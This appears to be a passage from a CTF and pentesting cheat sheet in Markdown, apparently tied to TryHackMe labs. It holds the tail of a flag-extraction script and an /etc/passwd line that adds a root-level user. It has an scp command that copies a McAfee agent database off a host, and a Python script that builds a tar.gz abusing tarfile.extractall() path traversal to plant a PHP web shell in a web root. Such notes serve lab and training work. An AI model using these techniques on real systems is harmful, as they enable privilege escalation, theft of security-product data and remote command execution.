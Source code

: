 ```python3
        res = json.loads(r.text)
        size = res['sniffed']
        if size == 67:
            flag += chr(code)
            break
    if flag[-1] == '}':
        break

print('[*] flag:', flag)
```

----------------

### References-:

- [Yocchin](https://yocchin.hatenablog.com/entry/2024/11/12/084437)

----------------

### Writing hash in /etc/passwd format

- Example

```rootzy:$1$sJ7Zcpwb$fKpiAes0t0ocZAHeUzn6x1:0:0:root:/root:/bin/bash```

-----------------

### Using scp

- Window files-:
  ` scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db . `

-----------------

### Creating malicious tar.gz to exploit tarfile.extractall()

------------------

- Function `tarfile.extractall()` is vulnerable to path traversal which can be used to overwrite files.
- Code-:

```python3
#! /usr/bin/env python3
import tarfile
import io

tar = tarfile.TarFile.open('malicious.tar.gz', 'w:gz')

info = tarfile.TarInfo("../../var/www/html/databases/shell.php")
info.mode=0o444 # So it cannot be overwritten
php_shell = b"<?php echo system($_GET['cmd']); ?>"
info.size=len(php_shell)
tar.addfile(info,io.BytesIO(php_shell))
tar.close()
```
----------------
